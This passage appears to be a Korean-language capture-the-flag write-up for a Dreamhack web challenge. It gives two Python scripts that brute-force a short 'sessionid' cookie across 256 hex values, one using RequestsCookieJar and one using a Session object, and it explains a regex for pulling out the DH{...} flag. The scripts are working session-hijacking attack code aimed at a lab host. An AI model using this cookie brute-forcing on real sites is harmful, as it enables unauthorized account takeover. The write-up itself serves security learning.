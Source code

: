 ![alt text](assets/img/session/image_3.png)

`requests` 모듈을 사용하면서, 다양한 방법으로 위 코드에서 변형을 통해 쿠키를 조작할 수 있다.

<br>

#### RequestsCookieJar 사용

cookie의 `domain`과 `path`를 지정하고, 더 정교한 세팅이 가능한 방법이다.

```py
import requests
from tqdm import tqdm
from requests.cookies import RequestsCookieJar

# RequestsCookieJar 객체 생성 (jar은 cookie를 저장하는 컨테이너라는 뜻)
jar = RequestsCookieJar()
url = 'http://host3.dreamhack.games:8729/'

for i in tqdm(range(256)):
    jar.set('sessionid', f'{i:02x}', domain='host3.dreamhack.games', path='/')
    response = requests.get(url, cookies=jar)

    if 'flag' in response.text:
        print(jar.get('sessionid'))
        print(response.text)
        break
```

<br>

#### Session 객체 사용

여기서는, 정규 표현식 `r'DH\{.*?\}'`를 사용하여 `response.text`에서 `FLAG`만 출력하도록 하였다.

정규 표현식에서 `.`은 임의의 단일 문자, `*`은 앞의 패턴이 0번 이상 반복, `?`는 **Non-greedy**를 의미한다.

`?`를 써주지 않았을 때 `DH{~} ~~ }`가 오는 경우, 마지막 `}`까지 매칭되기 때문에 `}`가 처음 나왔을 때 끝내도록 Non-greedy를 써줬다.

```py
import requests
import tqdm
import re

# 세션 객체 생성
session = requests.Session()
url = 'http://host3.dreamhack.games:8729/'

for i in tqdm.tqdm(range(256)):
    bf_random = format(i, '02x')
    # 세션에 쿠키 설정
    session.cookies.set('sessionid', bf_random)
    # 세션을 사용하여 GET 요청
    response = session.get(url)

    if 'flag' in response.text:
        print(bf_random)
        # response.text에서 정규표현식에 맞는 문자열 찾아서 매칭 정보 리턴
        flag = re.search(r'DH\{.*?\}', response.text)
        # 매칭 정보에서 텍스트를 문자열로 반환
        print(flag.group())
```